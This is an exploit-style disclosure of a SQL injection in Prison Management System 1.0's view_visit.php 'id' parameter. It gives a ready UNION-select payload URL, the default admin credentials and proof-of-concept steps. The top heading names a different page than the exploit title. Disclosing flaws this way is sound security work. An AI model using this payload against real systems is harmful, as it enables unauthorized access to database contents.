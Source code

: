 # Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Prison Management System  - /admin/visits/view_visit.php 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Prison Management System does not filter the content correctly at the `/admin/visits/view_visit.php` "id" parameter, resulting in the generation of SQL injection.

#### Payload used:
/pms/admin/visits/view_visit.php?id=2%27and%201=2%20union%20select%201,2,3,4,5,6,7,user(),database()--+

#### Proof of Concept

1. Login the CMS. 
     Admin Default Access:
       username:admin
       Password: admin123

2. Open Page http://localhost/pms/admin/?page=visits click View button

   ![image-20220606165326315](img/PrisonManagementSystem(SQLI)2.assets/image-20220606165326315.png)

   ![image-20220606165410485](img/PrisonManagementSystem(SQLI)2.assets/image-20220606165410485.png)

   

3. Put SQL payload   in the browser;

     ![image-20220606165443092](img/PrisonManagementSystem(SQLI)2.assets/image-20220606165443092.png)


4. Viewing the dbuser and database name in page;

   

